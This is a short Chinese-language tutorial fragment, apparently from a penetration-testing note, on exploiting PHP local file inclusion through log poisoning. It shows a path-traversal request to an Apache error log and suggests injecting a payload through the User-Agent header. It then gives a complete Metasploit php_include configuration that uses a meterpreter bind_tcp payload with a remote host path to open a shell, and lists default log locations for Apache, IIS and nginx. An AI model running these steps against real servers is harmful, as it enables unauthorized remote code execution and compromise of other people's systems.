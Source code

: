 ?file=../../../../../../../../../var/log/apache/error.log

1、提交如下请求，将 payload 插入日志


![](1.png)
![avatar](/user/desktop/doge.png) 

2、可以尝试利用 UA 插入 payload 到日志文件



3、MSF 攻击模块

 
use exploit/unix/webapp/php_include
set rhost 192.168.159.128
set rport 80
set phpuri /index.php?file=xxLFIxx
set path http://172.18.176.147/
set payload php/meterpreter/bind_tcp
set srvport 8888
exploit -z


日志默认路径

apache+Linux 日志默认路径

/etc/httpd/logs/access_log

或者

/var/log/httpd/access log

apache+win2003 日志默认路径

D:/xampp/apache/logs/access.log

D:/xampp/apache/logs/error.log

IIS6.0+win2003 默认日志文件

C:/WINDOWS/system32/Logfiles

IIS7.0+win2003 默认日志文件

%SystemDrive%/inetpub/logs/LogFiles

nginx 日志文件在用户安装目录的 logs 目录下

如安装目录为 /usr/local/nginx,则日志目录就是在

/usr/local/nginx/logs

也可通过其配置文件 Nginx.conf，获取到日志的存在路径

/opt/nginx/logs/access.log



web 中间件默认配置

apache+linux 默认配置文件

